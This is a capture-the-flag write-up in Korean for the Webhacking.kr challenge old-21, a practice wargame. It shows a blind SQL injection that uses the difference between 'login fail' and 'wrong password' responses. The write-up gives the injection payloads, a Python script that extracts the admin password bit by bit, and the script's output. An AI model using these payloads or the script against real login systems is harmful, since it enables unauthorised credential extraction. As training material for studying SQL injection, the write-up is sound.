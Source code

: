 ```yaml
---
title: ["[Webhacking.kr] old-21 (sqli - 25)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, blind sqli, binary search, blackbox]
---
```

## Intro

또 블랙박스 SQLi다.  
이전의 블랙박스 SQLi와는 다르게, 필터링되는 문구가 많지 않은 기본 문제인 것 같다.  

## Analysis

쿼리의 결과를 판단할 수 있는 result 창이 있어서,  
`sleep`이나 `benchmark`없이 Blind SQLi가 가능할 것 같다.  

쿼리의 결과가 거짓이고, `pw` 비교에 실패한 경우,  
`login fail`을 출력하고,  
쿼리의 결과가 참이지만, `pw` 비교가 실패한 경우,  
`wrong password`를 출력한다.  

이를 이용해서 Blind SQLi 페이로드를 작성할 수 있다.  



먼저, pw의 길이를 구해보자.  
```
?id=admin&pw=1'or length(pw)=36 and id='admin
```  
이렇게 파라미터를 넘기면 내부에서 쿼리가 아래와 같이 실행될 것이다.  
```mysql
SELECT * from chall21 where id='admin' and pw='1'or length(pw)=36 and id='admin'
```  
`id='admin' and pw='1'`은 거짓이고,  
`admin`의 `pw` 길이가 36인 경우, `length(pw)=36 and id='admin'`은 참이다.  
쿼리의 결과는 참이지만, pw가 틀려 `wrong password`가 나오게 된다.  

같은 원리로 pw를 한글자씩 계산할 수 있다.   

```
?id=admin&pw=1'or ord(substr(pw,1,1))&1<<6 and id='admin
```  
이진탐색을 이용한 Blind SQLi 쿼리이다.  
`pw` 한 글자를 binary 값으로 바꾸고, 한비트씩 shift시켜서 문자열을 계산하는 방식이다.  

이전 문제에서는 `<`가 필터링되어 있어서 사용을 못했는데,  
이번 문제와 같이 `pw`의 길이가 길때는 7번의 loop으로 한 글자를 계산할 수 있는 이진탐색을 사용한 페이로드가 효과적이다.  


## Payload

```python
import requests

url = "https://webhacking.kr/challenge/bonus-1/"
cookies = {"PHPSESSID": "44vvod9aiio7vkpuqie2jualol"}

pw_len = 0
for i in range(1,50):
    payload = f"1'or length(pw)={i} and id='admin"
    response = requests.get(f"{url}?id=admin&pw={payload}", cookies=cookies)
    if('wrong password' in response.text):
        pw_len = i
        print(f"Password length is {pw_len}")

pw = ''
for i in range(1, pw_len+1):
    char = 0
    for bit in range(6, -1, -1):
        payload = f"1'or ord(substr(pw,{i},1))%26{1<<bit} and id='admin"
        response = requests.get(f"{url}?id=admin&pw={payload}", cookies=cookies)

        if('wrong password' in response.text):
            char += 1<<bit
    pw += chr(char)
    print(f"Password is {pw}")
```

```
Password length is 36
Password is t
Password is th
Password is the
Password is ther
Password is there
Password is there_
Password is there_i
Password is there_is
Password is there_is_
Password is there_is_n
Password is there_is_no
Password is there_is_no_
Password is there_is_no_r
Password is there_is_no_re
Password is there_is_no_res
Password is there_is_no_rest
Password is there_is_no_rest_
Password is there_is_no_rest_f
Password is there_is_no_rest_fo
Password is there_is_no_rest_for
Password is there_is_no_rest_for_
Password is there_is_no_rest_for_t
Password is there_is_no_rest_for_th
Password is there_is_no_rest_for_the
Password is there_is_no_rest_for_the_
Password is there_is_no_rest_for_the_w
Password is there_is_no_rest_for_the_wh
Password is there_is_no_rest_for_the_whi
Password is there_is_no_rest_for_the_whit
Password is there_is_no_rest_for_the_white
Password is there_is_no_rest_for_the_white_
Password is there_is_no_rest_for_the_white_a
Password is there_is_no_rest_for_the_white_an
Password is there_is_no_rest_for_the_white_ang
Password is there_is_no_rest_for_the_white_ange
Password is there_is_no_rest_for_the_white_angel
```